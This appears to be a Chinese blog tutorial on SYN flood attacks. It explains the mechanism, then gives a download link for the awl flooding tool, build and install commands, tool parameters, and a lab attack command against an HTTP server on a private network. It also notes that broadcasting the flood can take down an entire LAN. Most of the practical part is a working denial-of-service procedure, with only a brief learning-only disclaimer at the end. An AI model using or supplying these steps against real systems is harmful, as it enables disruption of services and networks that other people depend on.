


### SYN洪水ATT的过程：

> 在服务端返回一个确认的SYN-ACK包的时候有个潜在的弊端，如果发起的客户是一个不存在的客户端，那么服务端就不会接到客户端回应的ACK包。
>
> <!--more-->
>
> 这时服务端需要耗费一定的数量的系统内存来等待这个未决的连接，直到等待超关闭，才能施放内存。
> 如果恶意者通过通过ip欺骗，发送大量SYN包给受害者系统，导致服务端存在大量未决的连接并占用大量内存和tcp连接，从而导致正常客户端无法访问服务端，这就是SYN洪水ATT的过程。

基本过程：从客户端到服务器


### awl0.2下载地址:

https://pan.baidu.com/s/1KeWufWTjQl6cA8xLd_3FVw
提取码y1x0

### 开始安装awl

### 1.解压

```
root:~ # tar xf awl-0.2.tar 
root:~ # cd awl-0.2/
root:~/awl-0.2 # ls
acconfig.h    AUTHORS       config.h.in  configure.in  include     ltmain.sh    missing  src
acinclude.m4  ChangeLog     config.sub   COPYING       INSTALL     Makefile.am  NEWS     TODO
aclocal.m4    config.guess  configure    depcomp       install-sh  Makefile.in  README
```



### 2.编译安装

```
root:~/awl-0.2 # ./configure --prefix=/app/awl      #将全部文件安装至/app/awl/文件夹下
root:~/awl-0.2 # make -j 4             #以4个进程同时编译——把源代码编译成可执行的二进制文件
root:~/awl-0.2 # make install  #安装
```


## 实验环境

在centos6上有一台http服务器 ip为172.22.50.52
服务 器端为centos7 ip为172.22.50.51


http服务为172.22.50.51
服务器（被ATT端）172.22.50.52
双方都能ping通

### 开始ATT


通过刚才ping 52 可用 arp -n 查看ping过的主机mac地址

```
# arp -n
```

> awl参数如下:
> -i 发送包的接口,如果省略默认是eth0
> -m 指定目标mac地址 注：如果-m没有指定mac，默认目标MAC地址是“FF.FF.FF.FF.FF.FF”，
> FF.FF.FF.FF.FF.FF MAC地址是什么？
> 这表示向同一网段内的所有主机发出ARP广播，进行SYNATT，还容易使整个局域网瘫痪。
> -d 被ATT的机器的IP
> -p 被ATT的机器的端口

## 在awl安装目录下使用awl(也可将awl文件夹写入PATH直接使用)



### 警告：在5秒内按CTLR+C停止

### 这里有大量的伪装ip对52进行访问


### ATT时服务器http服务器已不能访问


### 停止后访问恢复正常


# 拓展：

```
./awl -i ens33 -m  -d 172.22.50.52 -p 80
```

在-m后不要跟目标mac地址，默认目标MAC地址是“FF.FF.FF.FF.FF.FF”
这表示向同一网段内的所有主机发出ARP广播，进行SYN ATT，容易使整个**局域网瘫痪**

# 慎重使用

# 仅供学习网络协议，了解SYN洪水，请勿搞破坏